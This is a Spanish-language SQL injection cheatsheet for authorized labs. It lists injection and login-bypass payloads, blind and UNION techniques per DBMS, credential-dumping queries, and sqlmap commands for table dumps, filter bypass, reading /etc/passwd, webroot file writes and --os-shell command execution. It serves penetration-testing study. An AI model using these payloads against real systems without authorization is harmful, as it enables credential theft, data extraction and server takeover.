

# SQL Injection Cheatsheet

> [!abstract] TL;DR
> SQLi aparece cuando input del usuario termina dentro de una query SQL sin separación correcta entre **datos** y **código**. Flujo práctico: detectar parámetro → confirmar tipo de inyección → identificar DBMS → enumerar base/tablas/columnas → extraer datos relevantes → evaluar file read/write solo si el lab lo pide.

## Mapa mental



## Dónde probar

- parámetros GET: `?id=1`;
- parámetros POST;
- cookies;
- headers como `User-Agent`, `Referer`, `X-Forwarded-For`;
- JSON body;
- búsquedas, filtros, ordenamientos y formularios de login.

> [!warning]
> Automatizá solo en labs o sistemas autorizados. `sqlmap --dump` contra un sistema real puede ser destructivo a nivel operativo y legal.

## Payloads de detección rápida

### Strings

```sql
'
"
')
")
'--
"--
'#
admin'--
```

### Numéricos

```sql
1'
1"
1 OR 1=1
1 OR 1=2
1 AND 1=1
1 AND 1=2
```

### Login bypass

```sql
admin'--
admin'#
admin'/*
' OR '1'='1'--
" OR "1"="1"--
') OR ('1'='1'--
```

> [!tip]
> Si `id=1 AND 1=1` mantiene la respuesta normal y `id=1 AND 1=2` la cambia, probablemente hay boolean-based SQLi aunque no haya error visible.

## Tipos de SQLi

### Error-based

Señales:

- errores como `SQL syntax`, `SQLite error`, `ORA-`, `PostgreSQL`, `ODBC`;
- stack traces o mensajes de ORM.

```sql
'
1'
1/0
```

### Union-based

Contar columnas:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Probar `UNION`:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Identificar columnas reflejadas:

```sql
' UNION SELECT 1,2,3--
```

### Boolean-based blind

```sql
' AND 1=1--
' AND 1=2--
' AND SUBSTRING((SELECT database()),1,1)='a'--
' AND ASCII(SUBSTRING((SELECT database()),1,1))>100--
```

### Time-based blind

MySQL:

```sql
' AND SLEEP(5)--
' OR IF(1=1,SLEEP(5),0)--
```

PostgreSQL:

```sql
'; SELECT pg_sleep(5)--
```

MSSQL:

```sql
'; WAITFOR DELAY '0:0:5'--
```

SQLite:

```sql
' AND randomblob(100000000)--
```

## Comentarios por DBMS

```sql
-- 
#
/*
*/
```

> [!note]
> En MySQL, `--` suele necesitar un espacio después: `-- `. Si no funciona, probá `#`.

## Enumeración manual

### MySQL / MariaDB

```sql
SELECT version();
SELECT database();
SELECT user();
```

```sql
' UNION SELECT NULL,version(),database()--
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT NULL,username,password FROM users--
```

### PostgreSQL

```sql
SELECT version();
SELECT current_database();
SELECT current_user;
```

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public';
SELECT column_name FROM information_schema.columns WHERE table_name='users';
```

### MSSQL

```sql
SELECT @@version;
SELECT DB_NAME();
SELECT SYSTEM_USER;
```

```sql
SELECT name FROM master..sysdatabases;
SELECT name FROM sys.tables;
SELECT name FROM sys.columns WHERE object_id=OBJECT_ID('users');
```

### SQLite

```sql
SELECT sqlite_version();
SELECT name FROM sqlite_master WHERE type='table';
PRAGMA table_info(users);
```

## UNION SELECT práctico

Supongamos:

```text
/product?id=1
```

1. Confirmar columnas:

```sql
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
```

2. Encontrar columnas visibles:

```sql
-1 UNION SELECT 1,2,3--
```

3. Sacar versión/base:

```sql
-1 UNION SELECT 1,version(),database()--
```

4. Listar tablas:

```sql
-1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()--
```

5. Extraer usuarios:

```sql
-1 UNION SELECT 1,username,password FROM users--
```

> [!tip]
> Usar `-1` ayuda a que la query original no devuelva filas y se vea más limpio el resultado del `UNION`.

## sqlmap básico

### GET simple

```bash
sqlmap -u "http://target.htb/product.php?id=1" --batch
```

Enumerar:

```bash
sqlmap -u "http://target.htb/product.php?id=1" --dbs --batch
sqlmap -u "http://target.htb/product.php?id=1" -D appdb --tables --batch
sqlmap -u "http://target.htb/product.php?id=1" -D appdb -T users --columns --batch
sqlmap -u "http://target.htb/product.php?id=1" -D appdb -T users --dump --batch
```

### Especificar parámetro

```bash
sqlmap -u "http://target.htb/search.php?q=test&sort=asc" -p q --batch
```

### POST form

```bash
sqlmap -u "http://target.htb/login.php" --data "username=admin&password=admin" --batch
```

### Cookies

```bash
sqlmap -u "http://target.htb/profile.php" --cookie "PHPSESSID=abc123; tracking=1" -p tracking --batch
```

### Headers

```bash
sqlmap -u "http://target.htb/" --headers="X-Forwarded-For: 127.0.0.1*" --batch
```

El `*` marca la posición exacta a testear.

## sqlmap con request de Burp

Guardar request desde Burp como `req.txt`:

```bash
sqlmap -r req.txt --batch
```

Forzar parámetro:

```bash
sqlmap -r req.txt -p id --batch
```

Dump controlado:

```bash
sqlmap -r req.txt --current-db --batch
sqlmap -r req.txt -D appdb --tables --batch
sqlmap -r req.txt -D appdb -T users --dump --batch
```

> [!tip]
> `-r req.txt` es la forma más cómoda cuando hay cookies, CSRF, headers raros, JSON o rutas autenticadas.

## Opciones útiles de sqlmap

```bash
# Más profundidad
sqlmap -r req.txt --level 5 --risk 3 --batch

# Técnica específica
sqlmap -r req.txt --technique=U --batch   # UNION
sqlmap -r req.txt --technique=B --batch   # Boolean blind
sqlmap -r req.txt --technique=T --batch   # Time blind
sqlmap -r req.txt --technique=E --batch   # Error-based
sqlmap -r req.txt --technique=S --batch   # Stacked queries

# DBMS conocido
sqlmap -r req.txt --dbms=mysql --batch
sqlmap -r req.txt --dbms=postgresql --batch
sqlmap -r req.txt --dbms=mssql --batch

# Respuestas inestables
sqlmap -r req.txt --string "Welcome" --batch
sqlmap -r req.txt --not-string "Invalid" --batch
```

## Bypasses comunes

### Tamper scripts

```bash
sqlmap -r req.txt --tamper=space2comment --batch
sqlmap -r req.txt --tamper=between,randomcase,space2comment --batch
```

Tamper útiles:

```text
space2comment
randomcase
between
charencode
charunicodeencode
equaltolike
apostrophemask
```

### Manual

```sql
UNION SELECT
UnIoN SeLeCt
UNION/**/SELECT
%27%20OR%201=1--
```

> [!warning]
> Si usás sqlmap contra una app autenticada, cuidá redirects y logout. A veces sqlmap sigue una respuesta de sesión expirada y parece que "no encuentra nada".

## File read / write

### Leer archivos

```bash
sqlmap -r req.txt --file-read=/etc/passwd --batch
sqlmap -r req.txt --file-read="C:/Windows/win.ini" --batch
```

Manual MySQL:

```sql
' UNION SELECT NULL,LOAD_FILE('/etc/passwd'),NULL--
```

### Escribir archivos

```bash
sqlmap -r req.txt --file-write=local.txt --file-dest=/var/www/html/local.txt --batch
```

Requisitos comunes:

- permisos del usuario DB;
- path escribible por el proceso de DB;
- `secure_file_priv` en MySQL;
- conocer el webroot real.

## Command execution

Algunas bases permiten pasar de SQLi a ejecución de comandos si el usuario DB tiene permisos altos y el motor lo soporta. En sqlmap se prueba con el modo interactivo de shell del sistema operativo:

```bash
sqlmap -r req.txt --os-shell --batch
```

Notas por DBMS:

- MSSQL puede permitir ejecución si funciones administrativas están habilitadas.
- PostgreSQL suele requerir superuser o abuso de extensiones/copy.
- MySQL normalmente requiere file write, UDF o permisos muy altos.

## JSON y APIs

Request:

```http
POST /api/search HTTP/1.1
Host: target.htb
Content-Type: application/json

{"query":"test","limit":10}
```

Con sqlmap:

```bash
sqlmap -r req.txt -p query --batch
```

Marcando posición:

```json
{"query":"test*","limit":10}
```

```bash
sqlmap -r req.txt --batch
```

## Segundo orden

SQLi de segundo orden: guardás payload en un lugar y explota después cuando la app lo reutiliza.

Ejemplo:

```text
1. Cambiar nombre de usuario a un payload SQLi.
2. Visitar /profile, /invoice o /admin donde la app consulta por ese valor.
```

Con sqlmap:

```bash
sqlmap -r req.txt --second-url "http://target.htb/profile" --batch
```

## Checklist

```text
1. Qué parámetros controlo? GET, POST, cookie, header, JSON?
2. Hay diferencia entre true/false?
3. Hay errores SQL visibles?
4. Puedo usar ORDER BY para contar columnas?
5. Puedo reflejar datos con UNION SELECT?
6. Qué DBMS es? MySQL, PostgreSQL, MSSQL, SQLite?
7. Puedo enumerar DBs, tablas y columnas?
8. Hay credenciales reutilizables?
9. Puedo leer archivos del sistema?
10. Puedo escribir archivos en un path útil?
11. Hay stacked queries o ejecución de comandos?
12. sqlmap necesita request de Burp, cookies, headers o tamper?
```

## One-liners

```bash
# Detectar SQLi con request completo
sqlmap -r req.txt --batch

# Enumerar DBs
sqlmap -r req.txt --dbs --batch

# Dump controlado de tabla users
sqlmap -r req.txt -D appdb -T users --dump --batch

# Probar solo UNION con más profundidad
sqlmap -r req.txt --technique=U --level 5 --risk 3 --batch

# Leer archivo
sqlmap -r req.txt --file-read=/etc/passwd --batch
```

## Referencias

- PortSwigger Web Security Academy - SQL Injection
- PayloadsAllTheThings - SQL Injection
- sqlmap wiki
- OWASP Testing Guide - SQL Injection
